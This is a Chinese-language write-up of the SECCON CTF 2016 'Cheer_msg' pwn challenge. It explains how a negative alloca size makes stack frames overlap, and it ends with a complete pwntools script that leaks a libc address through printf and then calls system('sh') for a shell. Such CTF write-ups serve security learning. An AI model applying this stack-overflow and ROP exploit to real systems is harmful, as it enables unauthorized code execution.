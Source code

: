 ```yaml
---
title: '[SECCON CTF 2016 Quals] Cheer_msg 100'
author: Naetw
tags:
  - pwn
  - SECCON CTF 2016
  - stack overflow
  - ROP
categories:
  - write-ups
date: 2016-12-12 08:24:00
---
```


## Analyzing

32 bit ELF, Partial RELRO, 有 canary & NX, 沒有 PIE

程式小小的，比較少見的部分是 `alloca` 的部分，不同於平常的 `malloc`，`alloca` 是從 caller 的 stack frame 上分配記憶體，在 function call 結束時，回收記憶體。

main:

![main](http://i.imgur.com/HVWlCzl.png)

因為 `alloca`，main 裡有一行指令是 `sub esp, eax`，這個 eax 的值會是根據輸入的 message length 並做一些處理，所以想法是讓 eax 為負數，`sub esp, eax` 指令做完後，esp 的 address 高於 ebp，這樣在 call message 時，**因為 message function 的 stack frame 跟 main 的 stack frame 重疊**，就可以用 overflow 來 overwrite return address。

來看一下 stack frame 的變化:

```
         +------------------+ low address
origin   |..................| <- esp 
         |..................|
         |..................|
         |..................|
         |..................|
         |..................|
         |......previous ebp| <- ebp
         |....return address| 
         +------------------+ high address
```

after `sub esp, eax`:

```
         +------------------+ low address
new      |..................|  
         |..................|
         |..................|
         |..................|
         |..................|
         |..................|
         |......previous ebp| <- ebp
         |....return address|
         |..................|
         |..................|
         |..................|
         |..................|
         |..................| <- esp
         +------------------+ high address
```

message:

![message](http://i.imgur.com/W7cpuzP.png)

雖然因為輸入的 length 是負數，第一個 `getnline` 無法輸入，但是主要利用的是 **stack frame 的重疊**，所以要寫入的地方就著重在 local variable `v3` 上

## Exploit

找到漏洞後，我們已經能利用 overwrite ret address 來控制 eip，不過我們還差 libc information

因此第一步是 **leak libc function address**，計算 `v3` 的位置與 main ret address 的 offset，因為是 32 bits，我們疊一下 fake function call，利用 `printf` 來 leak info 後，return 回 main

之後再做一次差不多的事，只是這次的 fake function call 是 call `system('sh')`

## Final Exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote('cheermsg.pwn.seccon.jp', 30527)
#r = remote('127.0.0.1', 4000)

libc = ELF('libc-2.19.so')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# leak info
r.sendline('-100')

printf = 0x08048430
atoi_got = 0x804a02c
main = 0x080485ca

r.sendlineafter('Name >> ', 'A'*48 + p32(printf) + p32(main) + p32(0x804a02c))
r.recvline()
r.recvline()
r.recvline()

atoi = r.recv()
atoi = u32(atoi[:4])
print hex(atoi)
base = atoi - libc.symbols['atoi']
print hex(base)
system = base + libc.symbols['system']
sh = base + 0x0e469

sleep(0.1)

# exploit
r.sendline('-100')
r.sendlineafter('Name >> ', 'A'*48 + p32(system) + p32(0xdeadbeef) + p32(sh))

r.interactive()
```
